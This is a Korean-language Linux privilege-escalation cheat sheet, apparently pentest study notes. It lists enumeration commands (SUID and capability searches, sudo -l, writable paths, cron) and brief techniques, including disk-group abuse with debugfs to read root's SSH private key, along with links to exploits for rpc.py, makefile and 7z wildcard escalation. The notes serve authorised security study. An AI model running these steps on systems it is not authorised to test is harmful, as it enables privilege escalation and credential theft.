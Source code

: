 ```bash
# OS정보 확인
cat /etc/issue

cat /etc/os-release

uname -a
```
```bash
# 프로세스 및 네트워크 상태 확인
ps aux

ifconfig

routel

ss -anp

cat /etc/iptables/rules.v4
- IPv4 iptables 방화벽 규칙 확인.
```
```bash
ls -al /etc/cron*
sudo crontab -l
```
```bash
# 패키지 목록 조회
dpkg -l
```
```bash
find / -writable -type d 2>/dev/null

find /etc -writable -type f 2>/dev/null

find /usr -writable -type f 2>/dev/null

find /var -writable -type f 2>/dev/null
```
```bash
# 마운트 및 디스크 정보 조회
cat /etc/fstab
- 부팅 시 자동 마운트되는 파일 시스템 정보 확인.

mount

lsblk
- 블록 디바이스(디스크, 파티션) 정보 출력.
```
```bash
# 커널 모듈 정보
lsmod
- 현재 로드된 커널 모듈 목록 표시.

/sbin/modinfo libata
- 특정 커널 모듈(`libata`)의 상세 정보 확인.
```
```bash
find / -perm -4000 -type f 2>/dev/null
```
```bash
/usr/sbin/getcap -r / 2>/dev/null
```
```bash
sudo -l
```
---
# Linux Exploit Suggester
- https://github.com/The-Z-Labs/linux-exploit-suggester
- 예전 버전 리눅스 취약점 발견에 용이
---

# disk group privilege escalation
- https://www.hackingarticles.in/disk-group-privilege-escalation/
- `disk` 그룹은 **로우 블록 디바이스**(예: `/dev/sda`, `/dev/nvme0n1p2`)에 접근할 수 있습니다.  
```bash
df -h
- 현재 마운트된 파일시스템의 디스크 사용량을 사람이 읽기 쉬운 형태로 출력합니다.
```
<img width="689" height="248" alt="image" src="https://github.com/user-attachments/assets/96e0cff6-b9f2-4624-9c36-417a71ddac0c" />

```bash
debugfs /dev/sda3
- 파일시스템의 내부 구조를 조작하거나 디버깅할 수 있는 저수준 파일시스템 디버거 실행

mkdir test
- readonly로 설정되어 있으면 아래 코드 실행

cat /root/.ssh/id_rsa
```
# sudo group
```bash
sudo su
```
---
# rpc.py
- https://github.com/abersheeran/rpc.py
- https://www.exploit-db.com/exploits/50983
---
# makefile privesc
<img width="706" height="636" alt="image" src="https://github.com/user-attachments/assets/553e10b6-f5d7-4494-b3da-94c3167651d4" />

- https://medium.com/@adamforsythebartlett/makefile-privilege-escalation-oscp-62ea2c666d23
---
# system ctl
```bash
# nginx 서비스 유닛 내용 보기
systemctl cat nginx.service
```
---
# 7z wild card exploit
- https://chinnidiwakar.gitbook.io/githubimport/linux-unix/privilege-escalation/wildcards-spare-tricks

